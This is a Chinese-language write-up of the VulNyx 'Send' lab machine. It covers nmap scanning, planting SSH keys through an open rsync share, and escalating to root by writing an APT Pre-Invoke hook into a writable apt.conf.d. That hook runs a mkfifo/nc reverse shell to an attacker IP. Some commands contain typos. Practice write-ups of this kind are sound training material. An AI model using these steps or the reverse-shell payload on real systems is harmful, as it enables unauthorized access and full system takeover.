





# 环境

来自[Vulny_Send](https://vulnyx.com/#Send)，rsync同步自己的ssh密钥，连上ssh，apt配置文件提权

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.23
```



## 服务详情

```bash
sudo nmap -sVC -O -p22,80,873 192.168.10.23
```



## 目录爆破

```bash
dirb http://192.168.10.23  #无结果
```

# rsync渗透

## rsync同步密钥

```bash
rsync rsync://192.168.10.23
同步目录shaer，用户名wally
ssh-keygan
rsync -anvP ~/.ssh 192.168.10.23::/share
ssh wally@192.168.10.23 -i .ssh/id_ed25519
```


## 提权

跑一下linpeas.sh和pspy64，发现`/etc/apt/apt.config.d`有写权限，而且还要定时运行里面的配置文件

`/etc/apt/apt.conf.d/` 用于存放 APT配置文件



```bash
#写一个apt配置文件提权脚本
echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.10.10 8888 >/tmp/f"};' > door
```


